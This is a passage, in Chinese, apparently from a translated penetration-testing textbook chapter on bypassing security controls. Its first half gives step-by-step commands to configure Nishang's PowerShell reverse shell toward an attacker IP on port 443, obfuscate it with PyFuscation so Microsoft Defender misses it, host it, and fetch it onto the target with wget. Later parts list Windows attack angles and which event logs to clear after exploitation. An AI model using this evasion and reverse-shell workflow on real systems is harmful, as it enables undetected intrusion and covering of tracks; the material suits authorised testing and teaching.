这样就准备好混淆器了。接下来，我们将使用 Nishang PowerShell 脚本来混淆有效载荷。可以通过运行 `sudo git clone https://github.com/samratashok/nishang` 从 Git 仓库克隆这些脚本，然后从相同的文件夹中，`cd nishang/Shells`，将 `Invoke-PowerShellTcp –Reverse –IPAddress <yourKaliIP> -Port 443` 添加到 `Invoke-PowerShellTcp.ps1` 脚本内容中并保存文件（该文件位于 `nishang/shells` 文件夹中）。编辑后的代码片段如 *图 9.29* 所示：


图 9.29：编辑 Invoke-PowerShellTcp.Ps1 内容

最后，我们将使用 PyFuscation 混淆我们刚刚编辑过的 PowerShell 脚本，通过运行`sudo python3 PyFuscation.py –fvp –-ps nameofthescript.ps1`。您应该能够看到，PowerShell 脚本、函数、变量和参数已被替换为一个新的文件夹和新的文件名，如*图 9.30*所示：


图 9.30：在 Invoke-PowerShellTcp.ps1 上运行 PyFuscation

一旦文件成功混淆，我们可以更改目录到输出文件夹，然后将文件重命名为更简洁的名称以便从目标系统调用，接着我们将通过运行`python3 –m http.server`来托管我们的 Web 服务器，如*图 9.31*所示：


图 9.31：移动文件并托管 Python Web 服务器

在目标 Windows 机器上，我们只需从 PowerShell 运行`wget http://<yourkaliIP>/filename.ps1 -Outfile anyfolder`。

现在，最终脚本已经准备好接受杀毒软件扫描。在这个例子中，我们将使用微软 Defender 来扫描脚本，如*图 9.32*所示。它应该不会找到任何恶意内容。为了查看差异，您可以先尝试使用未混淆的原始脚本，您将看到微软 Defender 的警报，标记其为恶意并将其隔离。



图 9.32：微软 Windows Defender 确认未发现新威胁

最后一步，一旦脚本被传送到目标，攻击者现在可以为目标打开端口进行连接。在这种情况下，端口`443`是在最初的有效负载中设置的。一旦运行此 PowerShell 脚本，无论是通过 PowerShell 打开它还是直接运行，它都应当打开一个直接的反向 Shell，连接到攻击者的系统，且不会被任何杀毒软件/EDR 拦截，如*图 9.33*所示：


图 9.33：攻击者的 Kali Linux 远程 Shell，端口 443

我们将在*第十三章*《指挥与控制》中探讨如何保持指挥和控制的不同技巧。

## 其他 Windows 特定操作系统控制

Windows 特定操作系统控制可进一步划分为以下五个类别：

+   访问与授权

+   加密

+   系统安全

+   通信安全

+   审计与日志记录

### 访问与授权

大多数漏洞利用都发生在安全控制的访问和授权部分，以获取系统访问权限并执行未经授权的活动。具体控制如下：

+   将用户添加到凭证管理器中，使用户能够创建作为可信调用者的应用程序。作为回报，该帐户可以获取同一系统上另一个用户的凭证。举个例子，系统的用户将他们的个人信息添加到**通用凭证**部分，如*图 9.34*所示：

    图 9.34：Microsoft Windows 10 凭证管理器

+   通过基于云的账户进行登录；默认情况下，一些 Windows 操作系统允许使用 Microsoft 账户。

+   别忘了，旧系统中的来宾账户和被锁定的账户作为服务账户，用于运行计划任务和其他服务。

+   打印机驱动程序安装有助于绕过机器上设置的安全控制。攻击者可能会用恶意可执行文件替换驱动程序安装程序，从而为系统提供一个持久的后门。

+   匿名**安全标识符**（**SID**）、命名管道和 SAM 账户枚举是适用于通过域或独立安全设置连接到网络的系统的一些控制措施。

+   远程访问注册表路径和子路径。

### 加密

Microsoft Windows 采用的加密技术通常涉及密码存储、NTLM 会话和安全通道数据。

攻击者通常通过利用较弱的加密套件或直接禁用加密功能来成功绕过加密。

### 系统安全

系统级别的安全性主要围绕本地系统级别的利用和用于启动绕过的控制措施：

+   时区同步：在大多数组织中，所有终端会与主域同步时间；这为攻击者提供了伪造证据或跟踪漏洞利用的机会。

+   创建页面文件、锁定内存中的页面，并创建令牌对象——其中一些令牌对象和页面文件在系统级别运行。一种典型的攻击方式是休眠文件攻击。

+   渗透测试人员在获得目标系统的本地管理员权限后，必须考虑的首要事项之一是将自己身份验证到域中，提升权限，并向域中添加一个能够创建全局对象和符号链接的用户，这将提供对域的完全访问。

+   加载和卸载设备驱动程序，并设置固件环境值。

+   启用所有系统用户的自动管理员登录。

### 通信安全

通常，在通信安全方面，大多数附加网络设备已经到位，但关于 Windows 数字签名证书和**服务主体名称**（**SPN**）服务器，目标名称验证是渗透测试人员可以利用的一个重要环节，用于开发自定义漏洞利用程序。我们将在下一章探讨 SPN 的漏洞利用。

### 审计和日志记录

Windows 可能设置的默认配置控制大多涉及启用系统日志。以下是任何组织可以在事件/取证分析期间利用的信息日志列表：

+   凭证验证

+   计算机账户管理

+   分发组管理

+   其他账户管理级别

+   安全组管理

+   用户账户管理

+   进程创建

+   指令服务访问和更改

+   帐户锁定/注销/登录/特殊登录

+   可移动存储

+   政策变化

+   安全状态变化

这提供了一个清晰的视角，展示了渗透测试人员在我们网络攻击链方法论的漏洞利用阶段之后，必须考虑清除的日志类型。

# 总结

在本章中，我们深入探讨了克服组织为其内部保护设定的安全控制的系统化过程。我们重点讨论了不同类型的网络接入控制（NAC）绕过机制，如何使用隧道技术建立与外部世界的连接并绕过防火墙，还了解了网络、应用程序和操作系统各个层级的控制，确保我们的漏洞利用能够成功到达目标系统。此外，我们回顾了如何通过 PowerShell 混淆使用 PyFuscation 绕过杀毒软件检测，并探讨了 Veil-Evasion 和 Shellter 框架，用于制作基于文件的漏洞利用。我们还观察到，如何利用 Metasploit 框架轻松绕过 Windows 操作系统的安全控制，例如用户账户控制（UAC）、应用程序白名单和其他特定于 Active Directory 的控制。

在下一章中，我们将研究各种利用系统的手段，包括公开漏洞、漏洞利用框架，如 Metasploit 框架、PowerShell Empire 项目和基于 Windows 的漏洞利用。
